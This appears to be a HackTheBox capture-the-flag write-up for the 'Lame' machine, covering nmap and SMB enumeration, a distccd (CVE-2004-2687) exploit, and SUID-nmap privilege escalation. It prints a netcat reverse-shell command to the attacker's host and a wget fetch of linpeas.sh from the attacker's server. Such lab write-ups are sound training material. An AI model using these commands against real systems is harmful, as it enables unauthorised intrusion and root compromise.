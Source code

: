 # Lame - 10.10.10.3
### Don't forget to check out the Lame.pdf file. To see it in color :)

![Lame_info_card](https://user-images.githubusercontent.com/110210595/187806371-c87c74bd-6111-458a-8cd7-62a899083d09.png)

Started off with a nmap scan `nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3`<br>
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.<br>
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command executionCVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.<br>
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![nmap_scan_pt1](https://user-images.githubusercontent.com/110210595/186279936-8afa6919-9add-4034-bbe4-2829a8d84580.png)

![nmap_scan_pt2](https://user-images.githubusercontent.com/110210595/186279953-2fb886f4-5574-4cb1-b27b-306826c0b9ca.png)

I see that smb is open. 139/445. I run `smbmap -H 10.10.10` and get back some users.

![smbmap_results](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is <em><strong>READ, WRITE</em></strong>. Lets login and see what we can find.<br>
I use `smbclient \\\\10.10.10.3\\tmp` and we get a hit.<br>
I use `ls` to see what we can find. Unfortunately there is nothing here either.<br>
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![smbclient\tmp_results](https://user-images.githubusercontent.com/110210595/186279990-d0c780e7-424c-43e0-b62f-eea7d5ccf836.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running. <em><strong>distccd v1</em></strong><br>
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855<br>
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong><br>
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  `chmod +x CVE-2004-2687.py`<br>
the file is ready to be used. First I started a listener on my attacking machine with `nc -lvnp 9001` and then used the following command<br>
`./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` No good, got errors.<br>
Then I tried. `python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python.<br>
Next up,  `python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` Success, we get a shell!

![COWABUNGA](https://user-images.githubusercontent.com/110210595/186280016-5a9d0378-3c30-4f95-89e0-c68eea7c86d1.png)

![image](https://user-images.githubusercontent.com/110210595/185814162-05876fb9-000c-4612-bcfc-bd4d8fc70e88.png)

Let's upgrade the shell. I used the following.<br>
`python -c 'import pty; pty.spawn("/bin/bash")'` python3 and python2 didn't work.<br>
`export TERM=xterm `<br>
`stty raw -echo && fg`<br>
`enter`<br>
`enter`<br>

We're a normal user daemon. I started off with `sudo -l` but it asked for a password. Let's move on.
I look around a bit and `cd /home` directory and do a `ls` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I use <em><strong>cat user.txt</em></strong> at it and we get out our first flag.  

![image](https://user-images.githubusercontent.com/110210595/185814188-b2d3ad0a-a11d-4f7e-a4bc-49c2566b5fa1.png)

![image](https://user-images.githubusercontent.com/110210595/185814191-f868ba55-884e-4c9e-ba39-267b4ee7455c.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh<br>
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.<br>
I use `python3 -m http.server 80` to get the server up and running.<br>
On the victim machine ill be in the <em><strong>/tmp</em></strong> directory and use 'wget://10.10.14.10/linpeas.sh' which is my attacking machines ip from HackTheBox. 
The file gets transferred over no problem. I use `chmod +x linpeas.sh` making it an executable file.<br>
I use `./linpeas.sh` and it runs no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![image](https://user-images.githubusercontent.com/110210595/185814232-c92b51cf-c297-46b9-ad1f-ed45077f1d5d.png)

![image](https://user-images.githubusercontent.com/110210595/185814233-174d7a35-f050-4533-acd5-6fc6f51f48a7.png)

![image](https://user-images.githubusercontent.com/110210595/185814242-ca1ef7ad-efb5-47bd-8b56-bedfb902f6c7.png)

<em><strong>/usr/bin/nmap suid</em></strong><br>
I head over to https://gtfobins.github.io/ and search for <em><strong>nmap</em></strong><br>
I 'cd /usr/bin' where the suid is located.<br>
I start off with shell code (a) and nothing happened. So I keep going down the list.<br>
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now 'cd /root' and see what is there which is the <em><strong>root.txt</em></strong>flag!<br>
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)

